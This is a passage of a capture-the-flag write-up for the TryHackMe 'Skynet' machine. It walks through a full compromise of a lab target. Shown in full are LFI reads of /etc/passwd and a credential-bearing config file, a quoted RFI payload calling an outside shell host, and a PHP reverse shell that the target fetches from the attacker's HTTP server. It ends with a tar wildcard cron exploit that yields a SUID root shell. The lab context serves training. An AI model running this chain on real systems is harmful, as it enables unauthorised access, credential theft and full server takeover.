-rwxrwxrwx 1 root root  70314 Sep  6 17:26 '1.02 Linear Algebra.md'
-rwxrwxrwx 1 root root  40779 Sep  6 17:26 '1.03 Calculus.md'
-rwxrwxrwx 1 root root  62712 Sep  6 17:26 '1.04 Probability.md'
-rwxrwxrwx 1 root root  64291 Sep  6 17:26 '1.05 Statistics.md'
-rwxrwxrwx 1 root root  39554 Sep  6 17:26 '1.06 Bayesian Statistics.md'
-rwxrwxrwx 1 root root   5110 Sep  6 17:26 '1.07 Graphs.md'
-rwxrwxrwx 1 root root  81655 Sep  6 17:26 '1.08 Probabilistic Graphical Models.md'
-rwxrwxrwx 1 root root  25823 Sep  6 17:26 '1.09 Optimization.md'
-rwxrwxrwx 1 root root  28790 Sep  6 17:26 '1.10 Algorithms.md'
-rwxrwxrwx 1 root root     26 Sep  6 17:26 '2.00 Machine Learning.md'
-rwxrwxrwx 1 root root   1165 Sep  6 17:26 '2.01 Overview.md'
-rwxrwxrwx 1 root root  94287 Sep  6 17:26 '2.02 Supervised Learning.md'
-rwxrwxrwx 1 root root 144726 Sep  6 17:26 '2.03 Neural Nets.md'
-rwxrwxrwx 1 root root  33383 Sep  6 17:26 '2.04 Model Selection.md'
-rwxrwxrwx 1 root root  39443 Sep  6 17:26 '2.05 Bayesian Learning.md'
-rwxrwxrwx 1 root root  82633 Sep  6 17:26 '2.06 Natural Language Processing.md'
-rwxrwxrwx 1 root root  21579 Sep  6 17:26 '2.07 Unsupervised Learning.md'
-rwxrwxrwx 1 root root   7949 Sep  6 17:26 '2.08 In Practice.md'
-rwxrwxrwx 1 root root     33 Sep  6 17:26 '3.00 Artificial Intelligence.md'
-rwxrwxrwx 1 root root  65601 Sep  6 17:26 '3.01 Search.md'
-rwxrwxrwx 1 root root  71657 Sep  6 17:26 '3.02 Planning.md'
-rwxrwxrwx 1 root root  25119 Sep  6 17:26 '3.03 Reinforcement Learning.md'
-rwxrwxrwx 1 root root  13360 Sep  6 17:26 '3.04 Filtering.md'
-rwxrwxrwx 1 root root   1123 Sep  6 17:26 '3.05 In Practice.md'
-rwxrwxrwx 1 root root     20 Sep  6 17:26 '4.00 Simulation.md'
-rwxrwxrwx 1 root root   5683 Sep  6 17:26 '4.01 Agent-Based Models.md'
-rwxrwxrwx 1 root root  44601 Sep  6 17:26 '4.02 Nonlinear Dynamics.md'
-rwxrwxrwx 1 root root     21 Sep  6 17:26 '5.00 In Practice.md'
-rwxrwxrwx 1 root root   5788 Sep  6 17:26 '5.01 Process.md'
-rwxrwxrwx 1 root root    940 Sep  6 17:26 '5.02 Visualization.md'
-rwxrwxrwx 1 root root   2516 Sep  6 17:26 '5.03 Anonymization.md'
-rwxrwxrwx 1 root root     20 Sep  6 17:26 '6.00 Appendices.md'
-rwxrwxrwx 1 root root   9221 Sep  6 17:26 '6.01 pandas.md'
-rwxrwxrwx 1 root root    117 Sep  6 17:26  important.txt

┌──(kali㉿kali)-[/mnt/…/Challenges/Easy/Skynet/notes]
└─$ cat important.txt       

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

Ah, we found the hidden directory!

Answer: `/45kra24zxs28v3yd`

### What is the vulnerability called when you can include a remote file for malicious purposes?

Answer: `Remote File Inclusion`

### What is the user flag?

Accessing the hidden directory (`/45kra24zxs28v3yd`) shows `Miles Dyson Personal Page`


Searching for additional files and directories in the hidden directory shows the following:

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -t 32 -x php,txt,html -u http://$TARGET_IP/45kra24zxs28v3yd
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.84.42/45kra24zxs28v3yd
[+] Method:                  GET
[+] Threads:                 32
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 418]
/administrator        (Status: 200) [Size: 4945]
/.php                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

Accessing the administrator directory (`/45kra24zxs28v3yd/administrator`) shows a login page for `Cuppa CMS`



Googling for "Cuppa CMS remote file inclusion" gives us [this exploit](https://www.exploit-db.com/exploits/25971) which we download.

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ cat 25971.txt          
# Exploit Title   : Cuppa CMS File Inclusion
# Date            : 4 June 2013
# Exploit Author  : CWH Underground
# Site            : www.2600.in.th
# Vendor Homepage : http://www.cuppacms.com/
# Software Link   : http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
# Version         : Beta
# Tested on       : Window and Linux

<---snip--->

#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

Moreover, We could access Configuration.php source code via PHPStream 

For Example:
-----------------------------------------------------------------------------
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
-----------------------------------------------------------------------------
<---snip--->
```

We verify LFI with `curl` and try to access `/etc/passwd`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ curl "http://$TARGET_IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd"
<script>
        function CloseDefaultAlert(){
                SetAlert(false, "", "#alert");
                setTimeout(function () {SetBlockade(false)}, 200);
        }
        function ShowAlert(){
                _width = '';
                _height = '';
                jQuery('#alert').animate({width:parseInt(_width), height:parseInt(_height), 'margin-left':-(parseInt(_width)*0.5)+20, 'margin-top':-(parseInt(_height)*0.5)+20 }, 300, "easeInOutCirc", CompleteAnimation);
                        function CompleteAnimation(){
                                jQuery("#btnClose_alert").css('visibility', "visible");
                                jQuery("#description_alert").css('visibility', "visible");
                                jQuery("#content_alert").css('visibility', "visible");
                        }
        }
</script>
<div class="alert_config_field" id="alert" style="z-index:;">
    <div class="btnClose_alert" id="btnClose_alert" onclick="javascript:CloseDefaultAlert();"></div>
        <div class="description_alert" id="description_alert"><b>Field configuration: </b></div>
    <div class="separator" style="margin-bottom:15px;"></div>
    <div id="content_alert" class="content_alert">
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false
    </div>
</div>  
```

Success! We can now access the user flag

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ curl "http://$TARGET_IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../home/milesdyson/user.txt"
<script>
        function CloseDefaultAlert(){
                SetAlert(false, "", "#alert");
                setTimeout(function () {SetBlockade(false)}, 200);
        }
        function ShowAlert(){
                _width = '';
                _height = '';
                jQuery('#alert').animate({width:parseInt(_width), height:parseInt(_height), 'margin-left':-(parseInt(_width)*0.5)+20, 'margin-top':-(parseInt(_height)*0.5)+20 }, 300, "easeInOutCirc", CompleteAnimation);
                        function CompleteAnimation(){
                                jQuery("#btnClose_alert").css('visibility', "visible");
                                jQuery("#description_alert").css('visibility', "visible");
                                jQuery("#content_alert").css('visibility', "visible");
                        }
        }
</script>
<div class="alert_config_field" id="alert" style="z-index:;">
    <div class="btnClose_alert" id="btnClose_alert" onclick="javascript:CloseDefaultAlert();"></div>
        <div class="description_alert" id="description_alert"><b>Field configuration: </b></div>
    <div class="separator" style="margin-bottom:15px;"></div>
    <div id="content_alert" class="content_alert">
        7<REDACTED>7
    </div>
</div>   
```

Answer: `7<REDACTED>7`

We also access the `Configuration.php` source code

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ curl "http://$TARGET_IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php"
<script>
        function CloseDefaultAlert(){
                SetAlert(false, "", "#alert");
                setTimeout(function () {SetBlockade(false)}, 200);
        }
        function ShowAlert(){
                _width = '';
                _height = '';
                jQuery('#alert').animate({width:parseInt(_width), height:parseInt(_height), 'margin-left':-(parseInt(_width)*0.5)+20, 'margin-top':-(parseInt(_height)*0.5)+20 }, 300, "easeInOutCirc", CompleteAnimation);
                        function CompleteAnimation(){
                                jQuery("#btnClose_alert").css('visibility', "visible");
                                jQuery("#description_alert").css('visibility', "visible");
                                jQuery("#content_alert").css('visibility', "visible");
                        }
        }
</script>
<div class="alert_config_field" id="alert" style="z-index:;">
    <div class="btnClose_alert" id="btnClose_alert" onclick="javascript:CloseDefaultAlert();"></div>
        <div class="description_alert" id="description_alert"><b>Field configuration: </b></div>
    <div class="separator" style="margin-bottom:15px;"></div>
    <div id="content_alert" class="content_alert">
        PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gInBhc3N3b3JkMTIzIjsKCQlwdWJsaWMgJHRhYmxlX3ByZWZpeCA9ICJjdV8iOwoJCXB1YmxpYyAkYWRtaW5pc3RyYXRvcl90ZW1wbGF0ZSA9ICJkZWZhdWx0IjsKCQlwdWJsaWMgJGxpc3RfbGltaXQgPSAyNTsKCQlwdWJsaWMgJHRva2VuID0gIk9CcUlQcWxGV2YzWCI7CgkJcHVibGljICRhbGxvd2VkX2V4dGVuc2lvbnMgPSAiKi5ibXA7ICouY3N2OyAqLmRvYzsgKi5naWY7ICouaWNvOyAqLmpwZzsgKi5qcGVnOyAqLm9kZzsgKi5vZHA7ICoub2RzOyAqLm9kdDsgKi5wZGY7ICoucG5nOyAqLnBwdDsgKi5zd2Y7ICoudHh0OyAqLnhjZjsgKi54bHM7ICouZG9jeDsgKi54bHN4IjsKCQlwdWJsaWMgJHVwbG9hZF9kZWZhdWx0X3BhdGggPSAibWVkaWEvdXBsb2Fkc0ZpbGVzIjsKCQlwdWJsaWMgJG1heGltdW1fZmlsZV9zaXplID0gIjUyNDI4ODAiOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luID0gMDsKCQlwdWJsaWMgJHNlY3VyZV9sb2dpbl92YWx1ZSA9ICIiOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3JlZGlyZWN0ID0gIiI7Cgl9IAo/Pg==    </div>
</div>  

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ echo 'PD9waHAgCgljbGFzcyBDb25maWd1cmF0aW9uewoJCXB1YmxpYyAkaG9zdCA9ICJsb2NhbGhvc3QiOwoJCXB1YmxpYyAkZGIgPSAiY3VwcGEiOwoJCXB1YmxpYyAkdXNlciA9ICJyb290IjsKCQlwdWJsaWMgJHBhc3N3b3JkID0gInBhc3N3b3JkMTIzIjsKCQlwdWJsaWMgJHRhYmxlX3ByZWZpeCA9ICJjdV8iOwoJCXB1YmxpYyAkYWRtaW5pc3RyYXRvcl90ZW1wbGF0ZSA9ICJkZWZhdWx0IjsKCQlwdWJsaWMgJGxpc3RfbGltaXQgPSAyNTsKCQlwdWJsaWMgJHRva2VuID0gIk9CcUlQcWxGV2YzWCI7CgkJcHVibGljICRhbGxvd2VkX2V4dGVuc2lvbnMgPSAiKi5ibXA7ICouY3N2OyAqLmRvYzsgKi5naWY7ICouaWNvOyAqLmpwZzsgKi5qcGVnOyAqLm9kZzsgKi5vZHA7ICoub2RzOyAqLm9kdDsgKi5wZGY7ICoucG5nOyAqLnBwdDsgKi5zd2Y7ICoudHh0OyAqLnhjZjsgKi54bHM7ICouZG9jeDsgKi54bHN4IjsKCQlwdWJsaWMgJHVwbG9hZF9kZWZhdWx0X3BhdGggPSAibWVkaWEvdXBsb2Fkc0ZpbGVzIjsKCQlwdWJsaWMgJG1heGltdW1fZmlsZV9zaXplID0gIjUyNDI4ODAiOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luID0gMDsKCQlwdWJsaWMgJHNlY3VyZV9sb2dpbl92YWx1ZSA9ICIiOwoJCXB1YmxpYyAkc2VjdXJlX2xvZ2luX3JlZGlyZWN0ID0gIiI7Cgl9IAo/Pg==' | base64 -d
<?php 
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "password123";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "";
                public $secure_login_redirect = "";
        } 
?> 
```

The Cuppa CMS databse credentials seem to be `root:password123`. They don't work to login via the web GUI though.

We also have the default upload path (`media/uploadsFiles`).

### What is the root flag?

Hint: A recursive call.

#### Prepare a reverse shell

We prepare a reverse shell to use

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ webshells 

> webshells ~ Collection of webshells

/usr/share/webshells
├── asp
├── aspx
├── cfm
├── jsp
├── laudanum -> /usr/share/laudanum
├── perl
└── php
┌──(kali㉿kali)-[/usr/share/webshells]
└─$ cd php  

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ ls
findsocket  php-backdoor.php  php-reverse-shell.php  qsd-php-backdoor.php  simple-backdoor.php

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ cp php-reverse-shell.php /mnt/hgfs/Wargames/TryHackMe/Challenges/Easy/Skynet/revshell.php

┌──(kali㉿kali)-[/usr/share/webshells/php]
└─$ cd /mnt/hgfs/Wargames/TryHackMe/Challenges/Easy/Skynet            

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ vi revshell.php       

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ head -n 15 revshell.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.14.61.233';
$port = 12345;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
```

Then we share it via HTTP

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ python -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```

#### Start a netcat listener

We start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

And use RFI to access the reverse shell

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ curl "http://$TARGET_IP/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.14.61.233:8000/revshell.php"

```

Checking back at our netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.84.42] 46490
Linux skynet 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 11:15:50 up  2:32,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

#### Fix/upgrade the reverse shell

We don't have a proper shell though so let's fix that

```bash
$ tty
not a tty
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@skynet:/$ ^Z
zsh: suspended  nc -lvnp 12345
                                                                                                                                                                                        
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Skynet]
└─$ stty raw -echo ; fg ; reset
[1]  + continued  nc -lvnp 12345

www-data@skynet:/$ stty rows 200 columns 200
www-data@skynet:/$ ^C
www-data@skynet:/$ 
```

Now we have a shell that survives `Ctrl + C`!

#### Enumeration for privesc

After some looking around we find a backup script under Miles directory

```bash
www-data@skynet:/$ find /home -iname *.sh -or -iname *.csh -or -iname *.zsh 2>/dev/null
/home/milesdyson/backups/backup.sh
www-data@skynet:/$ ls -l /home/milesdyson/backups/backup.sh
-rwxr-xr-x 1 root root 74 Sep 17  2019 /home/milesdyson/backups/backup.sh
www-data@skynet:/$ cat /home/milesdyson/backups/backup.sh  
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
www-data@skynet:/$ 
```

This script have a tar wildcard vulnerability which you can read more about from these references:

- [Exploiting Wildcard for Privilege Escalation](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
- [Linux Privilege Escalation Using tar Wildcards: A Step-by-Step Guide](https://medium.com/@althubianymalek/linux-privilege-escalation-using-tar-wildcards-a-step-by-step-guide-55771aae063f)

And this script is run by run via CRON

```bash
www-data@skynet:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
www-data@skynet:/$ 
```

#### Exploit the tar wildcard vulnerability

As an exploit we will create a copy of `/bin/bash` with the SUID-bit set.

We navigate to where the files are tar:ed from, that is `/var/www/html`, and create our script file.

```bash
www-data@skynet:/$ cd /var/www/html/
www-data@skynet:/var/www/html$ echo -e '#!/bin/bash\ncp /bin/bash /tmp/bash\nchmod +s /tmp/bash' > exploit.sh
www-data@skynet:/var/www/html$ cat exploit.sh 
#!/bin/bash
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
www-data@skynet:/var/www/html$ chmod +x exploit.sh 
```

Then we add two special files that will be interpreted by tar after wildcard expansion

```bash
www-data@skynet:/var/www/html$ touch -- '--checkpoint=1'
www-data@skynet:/var/www/html$ touch -- '--checkpoint-action=exec=sh exploit.sh'
```

The resulting setup looks like this

```bash
www-data@skynet:/var/www/html$ ls -l               
total 64
-rw-rw-rw- 1 www-data www-data     0 Sep  6 12:06 --checkpoint-action=exec=sh exploit.sh
-rw-rw-rw- 1 www-data www-data     0 Sep  6 12:06 --checkpoint=1
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 45kra24zxs28v3yd
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 admin
drwxr-xr-x 3 www-data www-data  4096 Sep 17  2019 ai
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 config
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 css
-rwxrwxrwx 1 www-data www-data    54 Sep  6 12:04 exploit.sh
-rw-r--r-- 1 www-data www-data 25015 Sep 17  2019 image.png
-rw-r--r-- 1 www-data www-data   523 Sep 17  2019 index.html
drwxr-xr-x 2 www-data www-data  4096 Sep 17  2019 js
-rw-r--r-- 1 www-data www-data  2667 Sep 17  2019 style.css
```

Then we wait a minute and check for our new shell file

```bash
www-data@skynet:/var/www/html$ ls -l /tmp/bash
-rwsr-sr-x 1 root root 1037528 Sep  6 12:09 /tmp/bash
```

And run it to get a root shell

```bash
www-data@skynet:/var/www/html$ /tmp/bash -p   
bash-4.3# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-4.3# 
```

#### Get the root flag

And finally, we can get the root flag

```bash
bash-4.3# cd /root
bash-4.3# ls
root.txt
bash-4.3# cat root.txt 
3<REDACTED>9
bash-4.3# 
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [base64 - Linux manual page](https://man7.org/linux/man-pages/man1/base64.1.html)
- [Base64 - Wikipedia](https://en.wikipedia.org/wiki/Base64)
- [Binary Refinery - Documentation](https://binref.github.io/)
- [Binary Refinery - GitHub](https://github.com/binref/refinery/)
- [Burp suite - Documentation](https://portswigger.net/burp/documentation)
- [Burp suite - Homepage](https://portswigger.net/burp)
- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [cron - Wikipedia](https://en.wikipedia.org/wiki/Cron)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [echo - Linux manual page](https://man7.org/linux/man-pages/man1/echo.1.html)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [Gobuster - GitHub](https://github.com/OJ/gobuster/)
- [Gobuster - Kali Tools](https://www.kali.org/tools/gobuster/)
- [id - Linux manual page](https://man7.org/linux/man-pages/man1/id.1.html)
- [Internet Message Access Protocol - Wikipedia](https://en.wikipedia.org/wiki/Internet_Message_Access_Protocol)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [OpenSSH - Wikipedia](https://en.wikipedia.org/wiki/OpenSSH)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [Post Office Protocol - Wikipedia](https://en.wikipedia.org/wiki/Post_Office_Protocol)
- [Setuid - Wikipedia](https://en.wikipedia.org/wiki/Setuid)
- [smbclient - Kali Tools](https://www.kali.org/tools/samba/#smbclient)
- [smbclient - Linux manual page](https://linux.die.net/man/1/smbclient)
- [Smbmap - GitHub](https://github.com/ShawnDEvans/smbmap)
- [Smbmap - Kali Tools](https://www.kali.org/tools/smbmap/)
- [Squirrelmail - Wikipedia](https://en.wikipedia.org/wiki/Squirrelmail)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [tar - GTFOBin](https://gtfobins.github.io/gtfobins/tar/)
- [touch - Linux manual page](https://man7.org/linux/man-pages/man1/touch.1.html)
- [webshells - Kali Tools](https://www.kali.org/tools/webshells/)
